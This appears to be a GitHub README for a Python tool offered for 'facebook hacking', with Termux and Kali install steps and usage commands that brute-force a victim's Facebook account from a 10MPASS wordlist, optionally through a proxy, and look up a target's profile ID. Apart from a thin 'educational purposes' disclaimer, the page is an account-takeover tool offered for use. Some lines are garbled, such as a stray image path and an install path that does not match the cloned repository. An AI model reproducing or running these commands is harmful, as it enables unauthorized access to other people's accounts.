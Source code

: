 ### **Language is used to Make this tool**

- python
### **The Tool is for .** 
**Commands to run tool in ur terminal Termux && Kali Linux**

_facebook hacking_ 👍🏼

![_5619ffb8-062e-495f-8d5c-6b8e61313e3f](https://github.com/user-attachments/assets/6b60281a-ed9b-4afa-9509-a9b2b6f5c6a1)


> installation
`Note : Tool is Made of Educational Purposes only.
      Please try not to harm anyone device 
      it's For Fun Purpose Not For Revenge
      (Join Us https://asifgk.website3.me)`
```python
apt update && apt upgrade -y
``` 
```python
apt install git -y
``` 
```python
git clone https://github.com/mdaminulislamasif/facebook-hack.git
``` 
```python
cd mdaminulislamasif
``` 
```python
bash setup
``` 
```python
python mdaminulislamasif.py
``` 
### **usage:)**

- U can Use Victim email Or Facebook Profile Id:
- Brute Force On Facebook Account Without proxy:
- Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt
- Brute Force On Facebook Account With Proxy:

- [ ] Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt -p 144.217.101.245:3129
- [ ] Get Target Facebook Profile ID:
- [ ] Command: python facebook_hack.py -g https://www.facebook.com/zuck
